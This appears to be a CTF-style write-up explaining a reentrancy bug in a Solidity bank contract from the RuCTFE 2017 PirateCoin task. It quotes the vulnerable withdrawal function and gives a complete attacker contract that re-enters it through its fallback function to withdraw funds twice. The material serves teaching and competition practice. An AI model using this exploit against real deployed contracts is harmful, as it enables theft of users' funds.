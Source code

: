 # Exploiting bank smart-contract

Bank smart-contract is based on the **PirateCoin** task on [RuCTFE 2017][ructfe].
We'll be exploiting vulnerable bank smart-contract running on Ethereum.
You can find a full source code of the bank here `contracts/Bank.sol`.
Let's look at the most interesting part

```
function withdrawBalance() public {
  var amountToWithdraw = userBalances[msg.sender];
  if (amountToWithdraw == 0) return;

  require(msg.sender.call.value(amountToWithdraw)());
  totalBankBalance -= userBalances[msg.sender];
  userBalances[msg.sender] = 0;
}
```

The main problem here is that a call to transfer ether is made **before** balance
updated. This call is blocking, so we can expect user's default fallback function
`function () payable` to be called. Inside we can recursively call `withdrawBalance()`
and receive ether **twice**. Here is an example of smart-contract that exploit this
vulerability

```
pragma solidity ^0.4.15;

import "./Bank.sol";

contract Pwn {
  Bank public bank;
  bool public performAttack = false;

  function setBank(address _bank) public {
    bank = Bank(_bank);
  }

  function steal() public payable {
    bank.addToBalance.value(msg.value)();
    performAttack = true;
    bank.withdrawBalance();
  }

  function getJackpot() public {
    msg.sender.transfer(this.balance);
  }

  function () public payable {
    if (performAttack) {
      performAttack = false;
      bank.withdrawBalance();
    }
  }
}
```

[ructfe]: https://ructfe.org/index
